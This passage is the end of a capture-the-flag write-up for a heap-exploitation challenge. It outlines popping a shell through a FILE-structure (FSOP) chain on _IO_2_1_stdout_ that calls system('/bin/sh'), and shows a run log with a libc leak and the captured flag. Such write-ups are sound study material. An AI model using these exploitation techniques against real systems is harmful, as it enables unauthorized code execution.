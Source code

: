 ## Shell
- We can allocate `_IO_2_1_stdout_` again and use a FSOP technique to pop a shell
    - I used the chain introduced by kylebot in [angry-FSROP](https://github.com/Kyle-Kyle/angry-FSROP) to call `system("/bin/sh")`

## FLAG
```
root@skuuk-laptop:/home/skuuk/tfc/mcguava# python3 exploit.py HOST=challs.tfcctf.com PORT=30821
...
[+] Opening connection to challs.tfcctf.com on port 30821: Done
[CRITICAL] libc: 0x7f8a177c9000
/home/skuuk/tfc/mcguava/exploit.py:66: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(m,**kwargs)
[*] Switching to interactive mode
TFCCTF{gu4v4_ju1c3__1s_th3_4ll__m1ghty_b3v3rage!}
```

Thanks Mcsky23 for this cool challenge, allowing me to demonstrate this technique :D


